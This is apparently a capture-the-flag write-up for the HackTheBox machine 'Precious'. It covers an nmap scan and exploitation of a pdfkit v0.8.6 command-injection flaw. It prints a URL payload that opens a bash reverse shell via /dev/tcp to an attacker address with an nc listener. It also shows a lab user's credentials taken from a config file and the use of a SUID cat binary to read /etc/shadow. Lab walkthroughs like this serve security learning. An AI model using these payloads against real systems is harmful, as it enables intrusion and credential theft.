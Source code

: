 # Precius

### Nmap:

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp   open  http        nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://precious.htb/
9000/tcp open  cslistener?
```

### precius.htb

After investigating the web, we discober the possibility to upload html files from our local http server to the remote machine and receive the pdf.

To upload a  html file: `-m http.server 8888` and create a web.html example in that folder.

Part of the esponse to the Post request:

```
<rdf:Description rdf:about=''
  xmlns:dc='http://purl.org/dc/elements/1.1/'>
  <dc:creator>
   <rdf:Seq>
    <rdf:li>Generated by pdfkit v0.8.6</rdf:li>
   </rdf:Seq>
  </dc:creator>
 </rdf:Description>
</rdf:RDF>
</x:xmpmeta>
```

The file is created with pdfkit v0.8.6

Searching on google we find this web with a vulnerability:

{% embed url="https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795" %}

So we try with the same command `sleep 5`

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

And after 5 seconds, we obtain the prompt with the PDF :clap:

So we try the same with a reverse shell:

On our machine `nc -lnvp 4444`

On the web(using a bash reverse shell):

```bash
http://10.10.16.81:8888/?name={'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.16.81/4444 <&1'`'}
```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Now we are on the system as ruby.

In the .bundle folder, there is a file config with the henry's credentials `henry:Q3c1AqGHtoI0aXAYFH`

Testing SUID with `find / -perm -4000 2> /dev/null` there are several options. One is cat, so lets try read the /etc/shadow. Works!

Lets try to read /root/root.txt



